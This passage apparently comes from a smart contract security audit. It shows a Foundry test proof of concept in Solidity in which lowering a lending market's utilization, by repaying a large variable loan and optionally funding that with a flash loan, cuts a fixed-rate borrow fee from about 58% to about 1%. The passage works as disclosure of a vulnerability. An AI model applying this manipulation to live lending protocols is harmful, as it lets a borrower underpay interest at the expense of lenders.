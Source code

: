 ```solidity
        wsteth.approve(address(marketWSTETH), liquidity);
        marketWSTETH.deposit(liquidity, address(this));
        marketWSTETH.auditor().enterMarket(marketWSTETH);
        marketWSTETH.borrowAtMaturity(
            maturity,
            borrowAmount,
            type(uint256).max,
            address(this),
            address(this)
        );
        (uint256 principal1, uint256 fee1) = marketWSTETH.fixedBorrowPositions(
            maturity,
            address(this)
        );

        // Reverse the borrow and decrease utilization first
        vm.revertTo(snapshot);
        vm.startPrank(whale);
        wsteth.approve(address(marketWSTETH), type(uint256).max);
        marketWSTETH.repay(700e18, whale);
        vm.stopPrank();

        // Borrow again from fixed pool and store the fee
        deal(address(wsteth), address(this), liquidity);
        wsteth.approve(address(marketWSTETH), liquidity);
        marketWSTETH.deposit(liquidity, address(this));
        marketWSTETH.auditor().enterMarket(marketWSTETH);
        marketWSTETH.borrowAtMaturity(
            maturity,
            borrowAmount,
            type(uint256).max,
            address(this),
            address(this)
        );
        (uint256 principal2, uint256 fee2) = marketWSTETH.fixedBorrowPositions(
            maturity,
            address(this)
        );

        // With the original utilization, the fee is higher
        assertEq(principal1, borrowAmount);
        assertEq(fee1, 0.582518181735455386e18); // The fee is ~58% of the borrow amount

        // After the utilization is manipulated, the fee is a LOT lower
        assertEq(principal2, borrowAmount);
        assertEq(fee2, 0.011389232448094875e18); // The fee is ~1% of the borrow amount
    }
}
```

**Note**: The attacker can get a flash loan to repay/borrow the huge variable loan to lower the fixed rate.
